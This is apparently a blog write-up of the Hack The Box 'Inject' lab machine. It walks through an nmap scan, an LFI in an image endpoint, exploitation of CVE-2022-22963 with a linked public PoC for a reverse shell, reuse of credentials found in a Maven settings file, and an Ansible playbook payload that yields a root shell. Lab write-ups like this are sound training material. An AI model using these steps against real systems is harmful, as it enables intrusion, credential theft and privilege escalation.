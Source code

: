 ```yaml
---
title: "Hack The Box - Inject [Easy]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


The machine is labeled misleadingly *easy*, but that can lead you to miss stuff, so make sure to check **everything**! 

A simple `nmap` scan shows us that `8080` port is open.

```bash
Nmap scan report for 10.10.11.204
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start by simply inspecting the website that is running on port `:8080`.

The website seems like it has an upload form that we can upload images, my initial thought was LFI vulnerability, so I've checked it and I found it.

```
http://10.10.11.204:8080/show_image?img=<vulnerable  to LFI>
```

Now I've wandered around exploring the website's source code and after a bit of digging and searching I was on the verge of giving up. Since the machine is labeled easy, I didn't exactly expect that the way to find a vulnerability is through https://spring.io/security/cve-2022-22963 (CVE-2022-22963) and I overlooked the versions that were listed in the maven build file (which you could exfiltrate from the LFI vulnerability).

After that, a reverse shell using this https://github.com/lemmyz4n3771/CVE-2022-22963-PoC POC was easy-peasy.

While enumerating the users, we can see that we have `root, phil ,frank` and a group that is called `staff`. So changing from `frank` to `phil` was through `/home/frank/.m2/settings.xml` which had the credentials to change the user to `phil`.

You can get your first flag after that.


Changing to root was a bit tricky at first since I was trying to create a new playbook, which caused some errors and I finally decided to use the currently created one with the following payload.

```bash
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > ./playbook_1.yml
<blabla>
$ bash -p
$ whoami
root
```

And there we have it!
